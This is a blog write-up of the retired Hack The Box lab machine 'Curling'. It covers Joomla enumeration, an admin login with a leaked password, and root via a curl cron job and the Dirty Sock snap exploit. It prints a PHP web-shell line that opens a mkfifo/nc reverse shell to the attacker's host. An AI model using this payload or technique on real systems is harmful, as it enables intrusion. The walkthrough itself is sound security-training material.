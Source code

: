 ```yaml
---
layout: post
title: Hack The Box - Curling
categories: hack-the-box
tags: [Linux, Web, Joomla, RCE, ssh]
image: /hackthebox/curling/0.png
---
```

### Quick Summary
#### Hey guys today Curling retired and here is my write-up about it. I had a lot of fun doing this box as it was easy and simple. Also it was straightforward , no rabbit holes and such things. It's a linux box and its ip is `10.10.10.150` I added it to `/etc/hosts` as `curling.htb`. Let's jump right in !
![](/images/hackthebox/curling/0.png)
<hr>
### Nmap
#### As always we will start with nmap to scan for open ports and services :
`nmap -sV -sT -sC curling.htb`
![](/images/hackthebox/curling/1.png)
#### We only get 2 open ports , 80 running http and 22 running ssh. Let's look at http.
<br>
<hr>
### HTTP Initial Enumeration
![](/images/hackthebox/curling/2.png)
#### We see a blog titled "Cewl Curling site!" , and it's [joomla](https://www.joomla.org/). At this point I would run `joomscan` but I wanted to do some manual enumeration first , so I checked the source of the page and at the end of the body I found this comment :
![](/images/hackthebox/curling/3.png)
#### So I checked `/secret.txt` and found this `base64` string :
![](/images/hackthebox/curling/4.png)
#### Decoding :
![](/images/hackthebox/curling/5.png)
#### `Curling2018!` we can use that as a password. But what is the username ? If we take a look at the main page again and read the posts :
![](/images/hackthebox/curling/6.png)
#### We will notice a name in one of the posts : `Floris` , now we can try to login as `floris` with the password `Curling2018!` :
![](/images/hackthebox/curling/7.png)
<br>
<br>
![](/images/hackthebox/curling/8.png)
#### And it worked. While I was doing this enumeration I ran gobuster in the background and got these results :
```
/.htpasswd (Status: 403)
/.hta (Status: 403)
/administrator (Status: 301)
/.htaccess (Status: 403)
/bin (Status: 301)
/cache (Status: 301)
/components (Status: 301)
/images (Status: 301)
/includes (Status: 301)
/index.php (Status: 200)
/language (Status: 301)
/layouts (Status: 301)
/libraries (Status: 301)
/media (Status: 301)
/modules (Status: 301)
/plugins (Status: 301)
/server-status (Status: 403)
/templates (Status: 301)
/tmp (Status: 301)
```
#### Let's go to `/administrator` and login to the administration panel :
![](/images/hackthebox/curling/9.png)
<br>
<br>
![](/images/hackthebox/curling/10.png)
<br>
<br>
![](/images/hackthebox/curling/11.png)
<hr>
### Editing Template Files and Getting a Reverse Shell :
#### On the configuration section there's an option for templates :
![](/images/hackthebox/curling/12.png)
#### By going to that we notice that protostar is the default style and template :
![](/images/hackthebox/curling/13.png)
<br>
<br>
![](/images/hackthebox/curling/14.png)
#### From templates we will go to `Protostar Details and Files` and create a new `php` file :
![](/images/hackthebox/curling/15.png)
<br>
<br>
![](/images/hackthebox/curling/16.png)
#### In the php file we will execute a system command to get a reverse shell :
```
<?php
    system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.xx.xx 1337 >/tmp/f');
?>
```
![](/images/hackthebox/curling/17.png)
#### After we save the file we will go to `http://curling.htb/templates/protostar/file.php`
![](/images/hackthebox/curling/18.png)
#### Then we check our listener :
![](/images/hackthebox/curling/19.png)
<hr>
### User
#### We got a reverse shell as `www-data` , in the `/home` directory there's a directory for `floris` :
![](/images/hackthebox/curling/20.png)
#### We don't have read access to `user.txt` , but we notice a file called `password_backup` , by looking at that file :
![](/images/hackthebox/curling/21.png)
#### It's a `hex dump` file , So I copied it to my box to reverse it :
![](/images/hackthebox/curling/22.png)
#### To reverse a `hex dump` file we will use `xxd` , so `xxd -r pw_backup` :
![](/images/hackthebox/curling/23.png)
#### Not a normal output , let's redirect the output to a file and see :
![](/images/hackthebox/curling/24.png)
#### So what happened is , it turned out to be a `bzip2` file so I decompressed it then got a new `gzip` file , decompressed it and got another `bzip2` file , after decompression I got a `tar` file , then finally a `txt` file for the password :
![](/images/hackthebox/curling/25.png)
#### Let's `ssh` as `floris` :
![](/images/hackthebox/curling/26.png)
#### And we owned user !
<br>
<hr>
### Curling 
#### By looking at the `/home` directory of `floris` again :
![](/images/hackthebox/curling/27.png)
#### There's a directory called `admin-area` which contains two files :
![](/images/hackthebox/curling/28.png)
#### `input` and `report`
#### `input` :
![](/images/hackthebox/curling/29.png)
#### `url = "http://127.0.0.1"`
#### `report` :
![](/images/hackthebox/curling/30.png)
#### It's obvious that this is the output of executing `curl` on `http://127.0.0.1` :
![](/images/hackthebox/curling/31.png)
#### Even the name of the box is a hint `curling` , so what about changing that `url` from `localhost` to something else like a file ? Next time the command gets executed we will get the contents of that file , maybe `root.txt` ? But only if it's getting executed by `root`. Let's try and see if it will work :
![](/images/hackthebox/curling/32.png)
#### Then we will do : `watch cat report` , this is executing `cat report` every 2 seconds and giving us the output , easier than checking manually :
![](/images/hackthebox/curling/33.png)
#### After some time we get the flag.
<br>
<hr>
### Dirty Sock ? Root shell !
#### I didn't like the fact that I could only read the flag , I wanted a `root` shell. So I tried for a long time to bypass the `url` thing and get a reverse shell , but couldn't. Then when I did this box again for the write-up , one of the things that caught my attention is that we are on an `ubuntu` box , so I checked `snap` version to know if it's vulnerable to `CVE-2019-7304` known as `Dirty Sock` and of course it was :
![](/images/hackthebox/curling/34.png)
#### This is not intended at all because by the time this box was released ,  `CVE-2019-7304` wasn't disclosed yet.
#### I got the exploit from [here](https://github.com/initstring/dirty_sock) , Then hosted it on a python simple http server and downloaded it on the box :
![](/images/hackthebox/curling/35.png)
`python3 dirty_sockv2.py`
![](/images/hackthebox/curling/36.png)
#### Now we can `su` to `dirty_sock` and execute commands as root :
![](/images/hackthebox/curling/37.png)
#### Or just `sudo su` and we will get a root shell :
![](/images/hackthebox/curling/38.png)
#### We owned root !
<br>
<br>
#### That's it , Feedback is appreciated !
#### Don't forget to read the [previous write-ups](/categories) , Tweet about the write-up if you liked it , follow on twitter [@Ahm3d_H3sham](https://twitter.com/Ahm3d_H3sham)
#### Thanks for reading.
<br>
<br>
#### Previous Hack The Box write-up : [Hack The Box - Frolic](/hack-the-box/frolic/)
#### Next Hack The Box write-up : [Hack The Box - Vault](/hack-the-box/vault/)
<hr>
